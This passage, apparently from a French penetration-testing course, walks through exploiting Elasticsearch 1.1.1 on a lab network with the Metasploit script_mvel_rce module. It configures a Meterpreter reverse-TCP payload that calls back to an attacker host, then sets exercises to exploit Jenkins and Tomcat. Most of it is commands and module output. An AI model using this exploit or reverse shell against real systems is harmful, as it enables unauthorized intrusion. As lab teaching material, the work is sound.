 * build_hash
* lucene version

La version indiquée est la 1.1.1.
Il est existe un exploit metasploit pour cette version.

```bash
msf6 exploit(multi/elasticsearch/script_mvel_rce) > use exploit/multi/elasticsearch/script_mvel_rce
[*] Using configured payload java/meterpreter/reverse_tcp
```

On prend soin de configurer les options correctement 
```bash
msf6 exploit(multi/elasticsearch/script_mvel_rce) > options 

Module options (exploit/multi/elasticsearch/script_mvel_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        9200             yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The path to the ElasticSearch REST API
   VHOST                         no        HTTP server virtual host
   WritableDir  /tmp             yes       A directory where we can write files (only for *nix environments)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT  4785             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ElasticSearch 1.1.1 / Automatic
```

La commande `run` va nous obtenir un shell sur la machine distante.

#### Exercice:

Exploitez par vous-même la vulnérabilité sur :
1. Jenkins
2. Tomcat

\newpage

